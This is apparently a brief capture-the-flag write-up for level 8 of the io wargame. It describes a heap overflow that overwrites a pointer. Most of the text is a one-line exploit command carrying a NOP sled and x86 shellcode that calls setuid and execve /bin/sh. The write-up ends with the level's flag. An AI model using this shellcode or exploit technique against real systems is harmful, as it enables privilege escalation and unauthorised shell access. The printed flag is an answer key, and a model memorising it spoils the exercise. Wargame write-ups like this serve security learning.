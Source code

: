 Heap Overflow. Overwrite pointer.

Exploit:
```
level8@io:/levels$ ./level08 $(python -c 'print "\x10\xa0\x04\x08"+"\x90"*67+"\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"+"\x0c\xa0\x04\x08"')
```

Flag: `jmtviodMhpfxOfmG`